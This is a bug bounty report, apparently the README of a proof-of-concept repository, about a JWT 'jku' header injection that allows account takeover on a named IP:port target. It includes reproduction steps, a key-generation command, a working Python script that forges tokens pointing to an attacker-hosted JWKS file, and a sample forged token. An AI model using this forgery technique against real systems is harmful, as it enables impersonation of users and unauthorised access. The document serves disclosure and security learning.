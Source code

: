 [This is an extended version of the actual report that I've submitted in the HackerOne Bug Bounty 2024. BTW, there's a lab for the same bug at [PortSwigger](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection). এক্সপেরিয়েন্স নাই, প্র্যাক্টিস নাই। তাই দেরি করে সাবমিট দিসি আর duplicate খাইসি! 😞]

### **Bug Bounty Report**

---

#### **Report Title:**  
JWT Manipulation Vulnerability Leading to Account Takeover  

---

#### **Report Description:**  
I discovered a critical vulnerability in your authentication mechanism that allows an attacker to impersonate other users by manipulating the JSON Web Token (JWT). Specifically, the issue arises due to improper validation of the JWT's signature or key, which enables an attacker to craft a valid token and use it to log in as another user.

Steps to reproduce:  
1. Obtain the public JWK (JSON Web Key) from the application's endpoint at `http://138.197.14.171:31281/.well-known/jwks.json`.  
2. Use the JWK to craft a malicious JWT with the desired payload, such as changing the `username` and `id`.  
3. Sign the JWT using the own generated private key (if exposed) or bypass signature verification (if the application does not validate the signature).  
4. Replace the token in the browser's cookies.  
5. Reload the application to gain unauthorized access as the targeted user.

**Step By Step Process:**
1. I created an account, logged in, found a JWT cookie, decoded it, and found a URL in the `jku` parameter. Sample decode data (header + payload): ```{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "c288afa6-4e05-4981-b976-b0a3460b2450",
  "jku": "http://127.0.0.1:1337/.well-known/jwks.json"
}{
  "id": 10,
  "username": "576i1",
  "iat": 1731733918
}```
2. Replaced the localhost IP with the public IP:PORT of the machine, sent a get request, and got something like this: ```{
  "keys": [
    {
      "alg": "RS256",
      "kty": "RSA",
      "use": "sig",
      "e": "AQAB",
      "n": "ALLBcsvRXr2X4ja7Th/XQa9sHYvqP6nAycbagzJSf1R55tfg/HgCDHxZ5DyzWHABmf5nmiG57ykqfdCFgKQe1XdNnZ2Aji0roY2a3u8YaSE1JnxLUpuIHz4Uld2by/+j0oPY/DuWVANxaY0iyBaVEOJKg4JzCTaG+BMPQiHZ1bJk/gSs4w3v/+95K4/ZKfaZQWrxdcEG4r0hk/YracSwvzuE11Z7u7X16Kp7MhKyWOoJlh7Q7CtCkJBmdXCCrUx7ONIWgG+a0HNQjIJCdGrHQiih3nQTGefCxhvEkfQwPTR5xSd7O0d8mEKfO8BARnzUBCh4ozcRowVeov3Y8plOAK8=",
      "kid": "c288afa6-4e05-4981-b976-b0a3460b2450"
    }
  ]
}```
3. Used this command to create my own jku file `mkkey jwk rsa --kid "c288afa6-4e05-4981-b976-b0a3460b2450" --alg "RS256" --use "sig" > jwk_with_kid.json`. Here the `kid`, `alg`, and `use` keys are the same as the target machine's jku file.
4. Created my own jku file with same formatting as the target machine's one with same `kid`, `alg`, and `use`, except the `e` and `n` value.
5. Hosted the jku file on this repo inside the `.well-known` folder.
6. Generated my fake JWT cookie using the Python script below. Guessed the user id and username from reviews found at `http://138.197.14.171:31281/reviews`.
7. Changed the cookie value with my fake cookie in the browser, refreshed the current webpage at `/dashboard`, and I'm logged in as another user!

Python script I used to generate the fake JWT token:  
```py
import jwt
import json
from jwcrypto import jwk

# Load the JWK with `kid` and `private` key
with open("jwk_with_kid.json", "r") as file:
    jwk_data = json.load(file)

# Extract relevant parts of the JWK
private_jwk = jwk.JWK.from_json(json.dumps(jwk_data["secret"]["jwk"]))
public_jwk = jwk.JWK.from_json(json.dumps(jwk_data["public"]["jwk"]))
kid = jwk_data["public"]["jwk"]["kid"]

# Define the header and payload
header = {
    "alg": "RS256",  # Algorithm
    "typ": "JWT",    # Type
    "kid": kid,       # Key ID
    "jku": "https://raw.githubusercontent.com/MS-Jahan/jwt-poc/refs/heads/main/.well-known/jwks.json"
}

payload = {
    "id": 1,
    "username": "dihan",
    "iat": 1731728697  # Issued At (UNIX Timestamp)
}

# Sign the JWT using the private key
private_key = private_jwk.export_to_pem(private_key=True, password=None).decode()
token = jwt.encode(payload, private_key, algorithm="RS256", headers=header)

# Output the signed JWT
print("Generated JWT:")
print(token)

# Verify the token using the public key
public_key = public_jwk.export_to_pem().decode()
try:
    decoded = jwt.decode(token, public_key, algorithms=["RS256"])
    print("\nDecoded Payload:")
    print(decoded)
except jwt.ExpiredSignatureError:
    print("Token has expired.")
except jwt.InvalidTokenError as e:
    print(f"Invalid Token: {e}")

```
Output:
```
Generated JWT:
eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9NUy1KYWhhbi9qd3QtcG9jL3JlZnMvaGVhZHMvbWFpbi8ud2VsbC1rbm93bi9qd2tzLmpzb24iLCJraWQiOiJjMjg4YWZhNi00ZTA1LTQ5ODEtYjk3Ni1iMGEzNDYwYjI0NTAiLCJ0eXAiOiJKV1QifQ.eyJpZCI6MSwidXNlcm5hbWUiOiJkaWhhbiIsImlhdCI6MTczMTcyODY5N30.ayTDiqTVYsmnpnVcKskbDHmkE9lDxGPbcw1QX9pcekqwu7M9qEuJa851pFUGagKgMdEylK1wejw32qudkRoWt5D2xm8567XUsQvNVUDuYQnGqnTBryVMeaR1ceeDwn1YELoRdurVZCQR_GOohbio2JJSUghbgnfdUpvlv9zLJl8X27Fgwpm8JnjnWGJvu-1iTmirpINrDUvEGpCqZT9zSYh-dFugpzXO45HeoT577jYUwG9YMQB6iW3yD4GtddAhTZOZCAZjPIJ5q-Of4QC9xup6mIt8pRAhsy7_NNd2zUUcGXcOLHrvujBWWm08feW0bsGim_pmzvZiTBtFYun4-A

Decoded Payload:
{'id': 1, 'username': 'dihan', 'iat': 1731728697}```
```

---

#### **Impact:**  
This vulnerability allows for:  
- Unauthorized access to any user account.  
- Escalation of privileges, such as accessing admin-only areas.  
- Potential data theft, modification, or deletion.  
- Full control of the application in some cases.

---
##### POC Video Link
https://youtu.be/2zpln4--qmo

#### **Severity:**  
**P1 - Critical**  
This is a critical security flaw as it enables complete account takeover and potential administrative access, violating user trust and system integrity.




